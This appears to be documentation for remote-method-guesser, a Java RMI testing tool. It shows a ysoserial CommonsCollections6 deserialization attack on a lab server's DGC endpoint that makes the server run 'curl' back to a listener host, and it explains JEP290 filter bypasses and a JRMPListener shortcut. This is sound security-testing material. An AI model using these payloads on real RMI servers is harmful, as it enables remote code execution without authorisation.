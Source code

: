 ```console
[+] 	The servers seems to use a SingleEntryRegistry (probably JMX based).
[+] 
[+] RMI server DGC enumeration:
[+] 
[+] 	- RMI server does not use a SecurityManager during DGC operations.
[+] 	  Remote class loading attacks are not possible.
[+] 
[+] RMI server JEP290 enumeration:
[+] 
[+] 	- DGC accepted deserialization of java.util.HashMap (JEP290 is not installed).
```

To confirm that the server is vulnerable you can perform a dedicated *deserialization attack* on the *DGC level* (*DGC* = *Distributed Garbage Collector*,
a *remote object* that is available on almost each *RMI endpoint*). This can be done
by using the ``dgc`` action of *remote-method-guesser*, which allows you to send *ysoserial* gadgets to the *DGC endpoint*:

```console
[qtc@kali ~]$ rmg --ssl 172.18.0.2 9010 dgc CommonsCollections6 "curl 172.18.0.1:8000/vulnerable"
[+] Creating ysoserial payload... done.
[+] Attempting ysoserial attack on DGC endpoint...
[+] 
[+] 	Caught ClassCastException during deserialization attack.
[+] 	Deserialization attack most likely worked :)

[...]

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.18.0.2 - - [27/Dec/2020 06:16:00] code 404, message File not found
172.18.0.2 - - [27/Dec/2020 06:16:00] "GET /vulnerable HTTP/1.1" 404 -
```

The callback from the server shows that the attack was successful. With *JEP290* installed, the server would have rejected the deserialization instead.

Whereas the deserialization filter on the *DGC* is very strict and there are currently no known bypasses, the *RMI registry* itself needs to allow more
classes to be deserialized in order to work correctly. This was abused for some bypasses in the past, where the two most prominent bypasses are the
*JRMPClient* gadget of the [ysoserial project](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/JRMPClient.java) and
the [RemoteObjectInvocationHandler bypass](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/) by [An Trinh](https://twitter.com/_tint0).
Both of them can be used together with *remote-method-guesser's* ``reg`` action and possibly bypass an outdated *JEP290* installation.

Notice that both bypass gadgets cannot be used to execute code directly. Instead they create an outbound *RMI* connection, which is no longer protected
by the deserialization filters. This outbound channel can now be used for deserialization attacks. The most common way to do this is probably using
[ysoserials JRMPListener](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/exploit/JRMPListener.java) and since it is so common,
*remote-method-guesser* has bultin a shortcut (``listen``) to launch this listener.
